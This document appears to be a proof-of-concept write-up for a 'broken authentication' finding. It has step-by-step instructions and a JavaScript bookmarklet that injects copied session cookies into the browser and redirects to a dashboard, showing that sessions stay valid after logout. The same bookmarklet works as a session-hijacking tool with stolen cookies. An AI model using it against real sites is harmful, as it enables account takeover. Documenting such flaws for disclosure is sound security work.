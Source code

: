 # Broken Authentacation

**Description**

### Steps to Reproduce:

1. First log in into the account, website will create a session for current login.
2. Copy all Cookies and paste it on notepad.
3. Log out your account.
4. Open your chrome browser and right click on **bookmark bar** and ```add page```.
5. Now, on `Edit Bookmark` and paste it on URL and save.
```javascript
/*
Broken Authentacation Script code by ph.hitachi
Email: ph.hitachi@gmail.com
Facebook: https://fb.com/ph.hitachi.gov.ph
*/ 
javascript:void(function(){
    function setCookie(Cookie) { 
    var list = Cookie.split("; "); 
    console.log(list); 
        for (var i = list.length - 1; i >= 0; i--) { 
            var cname = list[i].split("=")[0]; var cvalue = list[i].split("=")[1]; 
            var d = new Date(); d.setTime(d.getTime() + (7*24*60*60*1000)); 
            var expires = ";domain=.example.com;expires="+ d.toUTCString(); //change the .example.com
            document.cookie = cname + "=" + cvalue + "; " + expires; 
        } 
    } 
    function hex2a(hex) { 
        var str = ''; 
        for (var i = 0; i < hex.length; i += 2) {
            var v = parseInt(hex.substr(i, 2), 16); 
            if (v) str += String.fromCharCode(v); 
        } 
    return str; 
    } 
    var cookie = prompt("Broken Authentacation PoC", "Put Cookie here"); 
    setCookie(cookie); 
    location.href = 'https://example.com/dashboard'; //change the https://example.com/dashboard
})();
```
6. Click the bookmark page that you created, make sure you are in https://example.com/ before you click the bookmark that you created to popup this.

![](https://i.imgur.com/mLV03PI.png)

Now put the cookie and you will redirect in `https://example.com/dashboard`


### Video PoC
[![Watch the video](https://i.imgur.com/mLV03PI.png)](https://youtu.be/91tR8O6YaQk)

